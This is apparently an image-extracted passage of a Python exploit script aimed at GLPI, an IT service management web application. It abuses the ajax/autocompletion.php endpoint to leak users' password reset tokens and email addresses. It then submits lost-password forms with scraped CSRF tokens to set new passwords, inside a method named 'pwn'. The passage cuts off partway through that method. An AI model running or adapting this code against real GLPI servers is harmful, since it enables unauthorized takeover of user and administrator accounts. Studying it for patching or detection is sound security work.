 ```python
        r = self.session.get('{}/ajax/autocompletion.php'.format(self.url), params=params)

        if r.status_code == 200:
            try:
                data = json.loads(r.text)
            except:
                return None
            return data
        return None

    def get_forget_token(self):
        return self.get_data('User', 'password_forget_token')

    def get_emails(self):
        return self.get_data('UserEmail', 'email')

    def lost_password_request(self, email):
        r = self.session.get('{0}/front/lostpassword.php'.format(self.url))
        try:
            csrf_token = self.extract_csrf(r.text)
        except Exception as e:
            print("[-] Lost password error: could not retrieve form data")
            sys.exit(1)

        data = {
            "email": email,
            "update": "Save",
            "_glpi_csrf_token": csrf_token
        }

        r = self.session.post('{}/front/lostpassword.php'.format(self.url), data=data)
        return 'An email has been sent' in r.text

    def change_password(self, email, password, token):
        r = self.session.get('{0}/front/lostpassword.php'.format(self.url), params={'password_forget_token': token})
        try:
            csrf_token = self.extract_csrf(r.text)
        except Exception as e:
            print("[-] Change password error: could not retrieve form data")
            sys.exit(1)

        data = {
            "email": email,
            "password": password,
            "password2": password,
            "password_forget_token": token,
            "update": "Save",
            "_glpi_csrf_token": csrf_token
        }

        r = self.session.post('{}/front/lostpassword.php'.format(self.url), data=data)
        return 'Reset password successful' in r.text

    def pwn(self, email, password):
        if not self.login():
            print("[-] Login error")
            return

        tokens = self.get_forget_token()
        if tokens is None:
            tokens = []

```